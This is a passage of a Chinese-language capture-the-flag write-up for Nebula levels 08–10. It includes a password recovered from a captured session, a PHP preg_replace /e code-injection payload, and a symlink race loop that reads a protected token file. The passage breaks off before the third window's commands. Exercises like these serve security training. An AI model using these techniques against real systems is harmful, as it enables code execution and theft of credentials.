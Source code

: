 其实做的时候还挺纳闷，我们要登陆的是 flag08 用户，这包里登录的是 level8。先不管这个，包里可以看到 client 输入了 `b'level8\x0dbackdoor\x7f\x7f\x7f00Rm8\x7fate\x0d'`，对照 ASCII 表可知 \x0d 就是 \r，\x7f 是 DEL 即退格。所以包里client输入的密码是 backd00Rmate，用这个密码登录 flag08 即可。

```bash
level08@nebula:~$ su flag08
Password:
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

后来想了想，作者的意图应该是包里 client 输对了密码却输错了用户名，它本来是想登录 flag08 的。（常有的事）


## Level 09

没用过 PHP，不过我猜和 level 02 差不多。

网上搜了 preg_replace 相关的 vulnerability，大意就是用了 /e modifier 就会认为第二个参数是 PHP 代码，会执行。

```bash
level09@nebula:~$ cat a
[email {${system(getflag)}}]
level09@nebula:~$ /home/flag09/flag09 a
PHP Notice:  Undefined offset: 2 in /home/flag09/flag09.php on line 22
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/flag09/flag09.php(15) : regexp code on line 1
You have successfully executed getflag on a target account
PHP Notice:  Undefined variable: You have successfully executed getflag on a target account in /home/flag09/flag09.php(15) : regexp code on line 1
```

## Level 10

通过这题学到新知识了，[TOC/TOU](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)

简单来说就是建个普通文件a，通过 access 检查后，把它替换成指向token的软链，让 open 读取它。时机不好把握，就用两个死循环让它们自然竞争。

这题要开三个窗口。

第一个

```bash
level10@nebula:~$ while true; do rm -f a; touch a; ln -sf /home/flag10/token a; done
```

第二个

```bash
while true; do /home/flag10/flag10 a 127.0.0.1; done
You don't have access to a
You don't have access to a
Connecting to 127.0.0.1:18211 .. Connected!
Sending file .. wrote file!
You don't have access to a
```

第三个
